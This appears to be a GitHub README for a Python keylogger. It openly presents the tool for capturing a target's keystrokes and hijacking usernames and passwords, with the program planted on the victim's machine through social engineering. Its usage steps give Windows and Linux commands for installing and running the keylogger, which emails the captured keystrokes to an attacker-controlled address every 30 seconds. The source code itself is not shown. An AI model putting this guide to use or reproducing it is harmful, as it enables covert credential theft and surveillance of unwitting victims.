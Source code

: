 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 
```
1.1-) FOR WINDOWS: Open cmd and write this command -> cd Desktop
1.2-) C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly                 for your device python.exe location)      
1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py               -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.   
2.1-) FOR LINUX: Open terminal and write this command -> pip3 install pynput
1.2-) cd /root/PycharmProjects/Keylogger
1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) If you have any problem in LINUX do as follows : 
      sudo apt update
      sude apt install python3
      sudo apt-get install python3-dev
      sudo apt install python3-pip 
```
And your program will run without any error.
IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       

